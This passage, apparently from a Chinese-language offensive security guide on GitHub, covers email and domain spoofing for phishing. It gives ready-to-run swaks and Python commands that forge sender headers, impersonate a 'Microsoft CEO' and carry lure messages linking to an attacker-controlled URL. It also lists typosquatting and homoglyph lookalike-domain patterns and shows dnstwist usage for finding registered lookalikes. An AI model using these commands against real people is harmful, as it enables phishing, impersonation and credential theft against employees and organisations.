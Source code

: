 ### 地址伪装

1. 电子邮件地址伪装

```bash
swaks --to 收件人邮箱地址 --from 伪造邮箱地址 --h-From: '"伪造发件人用户名" <伪造邮箱地址>' --header "Subject: 紧急：请查看最新的公司ERP软件驱动" --body "亲爱的员工，\n\n请点击以下链接查看最新的公司ERP软件驱动更新：\n\nhttp://域名或IP地址/policy-update\n\n感谢您的合作。\n\n公司行政部"
```

[spoofed_email.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/tree/main/Zh/%E7%AC%AC%E5%85%AB%E7%AB%A0/%E9%B1%BC%E5%8F%89%E6%94%BB%E5%87%BB/spoofed_email.py)

```bash
python spoofed_email.py -t "收件人邮箱地址" -f "发件人邮箱地址" -n "Microsoft CEO" -s "邮箱服务器地址" -p 25 -u "邮箱服务器用户名" -j "紧急：请查看最新的公司政策更新" -b "亲爱的员工，<br><br>请点击以下链接查看最新的公司政策更新：<br><br>http://域名或IP地址/policy-update<br><br>感谢您的合作。<br><br>公司行政部"
```

2. 域名伪装

+ example.com = examp1e.com exampel.com
+ example.com = example-inc.com example_inc.com
+ example.com = example.net example.org example.biz
+ example.com = ex а mple.com
+ mail.example.com = mail-example.com vpn.example.com login.example.com

[expireddomains.net](expireddomains.net)

```bash
apt-get install dnstwist
dnstwist --registered 域名
```

3. 显示名称伪装

```bash
swaks --to 收件人邮箱地址 --from 发送邮箱地址 --h-From: "Legitimate Name <发送邮箱地址>" --header "Subject: Important Document" --body "Please find the attached document."
```
